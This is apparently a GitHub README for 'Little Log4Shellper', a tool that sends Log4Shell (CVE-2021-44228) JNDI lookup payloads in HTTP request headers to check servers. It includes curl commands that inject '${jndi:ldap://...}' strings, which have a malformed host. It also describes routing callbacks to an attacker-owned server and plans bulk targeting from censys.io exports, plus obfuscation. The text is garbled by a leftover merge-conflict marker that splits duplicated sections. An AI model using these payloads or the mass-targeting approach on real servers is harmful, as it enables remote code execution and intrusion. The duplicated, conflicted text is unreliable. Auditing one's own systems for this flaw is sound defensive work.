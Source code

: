 # Little Log4Shellper

Simple tool I wrote on a pleasant Sunday afternoon.  

This tool leverages a log4j vulnerability, [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). The exploit involves injecting a malicious payload into a GET request header.  

While the original intent was to quickly audit multiple servers, the --payload option could be used to extend that functionality.   

E.g.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/a}
```
### Usage
![Imgur](https://i.imgur.com/PlMudwa.png)


### Example
Spin up a test target. In this example I use a vulnerable docker image provided by [@breadchris](https://github.com/breadchris)
![Imgur](https://i.imgur.com/Syt6SvE.png)
=======
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://1270.0.0.1/o=refence}

### Usage
![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/5c5d35acdd39c1cea1b4012476057b867cc7d0b6dcce35a6579b4c8805859452-image.png)

### Example

Spin up a test target

![image.png](https://boostnote.io/api/teams/eAAUv2RbL/files/44e93d53cc0f2b43551cc2df6da7615cbb0364f9007c2dfa0dc82d3ff7220687-image.png)

Spin up or use an attacker owned host.  
In this example I use a free log4shell server hosted by Huntress.
This is but one approach.

![Imgur](https://i.imgur.com/1g9wevT.png)


Run logshellper.py
![Imgur](https://i.imgur.com/WCEPj4U.png)


Check results. If the target show up on the attacker's server, the target is exploitable.
![Imgur](https://i.imgur.com/jZYjjmV.png)

### TODO
parse .csv file (i.e. exported form censys.io) to build targets.
add obfu option.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

### TODO
parse .csv file (i.e. exported form censys.io) to build targets.

### Thanks
I'd like to thank the teams at Huntress.com, Lunasec.io
and everybody else who shared their research and efforts.

### References
https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java   
https://www.lunasec.io/docs/blog/log4j-zero-day/  
https://github.com/drahosj/log4shell-vulnerable-app
